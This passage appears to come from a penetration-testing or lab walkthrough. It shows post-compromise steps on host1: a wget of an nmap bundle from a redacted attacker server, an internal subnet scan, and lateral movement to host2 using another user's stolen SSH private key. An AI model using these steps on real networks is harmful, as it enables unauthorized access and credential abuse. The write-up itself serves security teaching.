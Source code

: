 ```bash
root@host1:/tmp# wget http://xx.xxx.xx.xxx:8000/nmap-x64.tar.gz     
```

```bash
root@host1:/tmp# tar -xzf nmap-x64.tar.gz 
```

```bash
root@host1:/tmp# ls
ls
full-scan.sh       nmap-payloads        nmap-x64.tar.gz  nselib
ncat               nmap-protocols       nmap.dtd         scan-port.sh
nmap               nmap-rpc             nmap.xsl         scan.sh
nmap-mac-prefixes  nmap-service-probes  nping            scripts
nmap-os-db         nmap-services        nse_main.lua
```

```bash
root@host1:/tmp# ./nmap -Pn xxx.xx.xx.0/24
...
Nmap scan report for ip-xxx-xx-xx-🔴.ec2.internal (xxx.xx.xx.🔴)
...
PORT   STATE SERVICE
22/tcp open  ssh
...
Nmap scan report for ip-xxx-xx-xx-⚪.ec2.internal (xxx.xx.xx.⚪)
...
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

<h2 align="center">Lateral Movement<br>Shell as mike in host 2</h2>

```bash
root@host1:/tmp# ssh -i /home/mike/.ssh/id_rsa mike@xxx.xx.xx.🔴
ssh -i /home/mike/.ssh/id_rsa mike@xxx.xx.xx.🔴
The authenticity of host 'xxx.xx.xx.🔴 (xxx.xx.xx.🔴)' can't be established.
ECDSA key fingerprint is SHA256:...
Are you sure you want to continue connecting (yes/no)? yes
yes
Warning: Permanently added 'xxx.xx.xx.🔴' (ECDSA) to the list of known hosts.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Mon Jul 19 20:23:18 2021 from xxx.xx.xx.🔴
mike@host2:~$
```

<h2 align="center">Socket Inspection</h2>
<p align="center"><strong>eth1</strong>Identified MySQL (port 3306).</p>
